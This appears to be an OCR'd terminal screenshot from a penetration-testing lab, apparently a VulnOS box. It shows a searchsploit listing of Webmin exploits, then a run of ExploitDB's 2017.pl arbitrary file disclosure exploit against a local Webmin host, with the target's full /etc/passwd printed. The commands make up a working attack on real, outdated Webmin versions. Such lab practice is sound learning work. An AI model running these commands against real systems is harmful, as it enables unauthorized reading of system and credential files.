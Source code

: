 ```
Webmin 1.850 - Multiple Vulnerabilities                                                                           | exploits/cgi/webapps/42989.txt
Webmin 1.x - HTML Email Command Execution                                                                         | exploits/cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (PHP)                                                | exploits/multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Perl)                                               | exploits/multiple/remote/2017.pl
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                  | exploits/php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                              | exploits/php/webapps/2451.txt
webmin 0.91 - Directory Traversal                                                                                 | exploits/cgi/remote/21183.txt
------------------------------------------------------------------------------------------------------------------ ----------------------------------
root@kali:~# cp /usr/share/exploitdb/exploits/multiple/remote/2017.pl .
root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/passwd 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/passwd

 FILE CONTENT STARTED
 -----------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
landscape:x:102:108::/var/lib/landscape:/bin/false
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
sysadmin:x:1001:1001::/home/sysadmin:/bin/sh
webmin:x:1002:1002::/home/webmin:/bin/sh
hackme:x:1003:1003::/home/hackme:/bin/sh
sa:x:1004:1004::/home/sa:/bin/sh
stupiduser:x:1005:1005::/home/stupiduser:/bin/sh
messagebus:x:103:112::/var/run/dbus:/bin/false
distccd:x:104:65534::/:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
openldap:x:106:113:OpenLDAP Server Account,,,:/nonexistent:/bin/false
ftp:x:1006:1006::/home/ftp:/bin/sh
mysql:x:107:115:MySQL Server,,,:/var/lib/mysql:/bin/false
telnetd:x:108:116::/nonexistent:/bin/false
bind:x:109:117::/var/cache/bind:/bin/false
postgres:x:110:118:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```
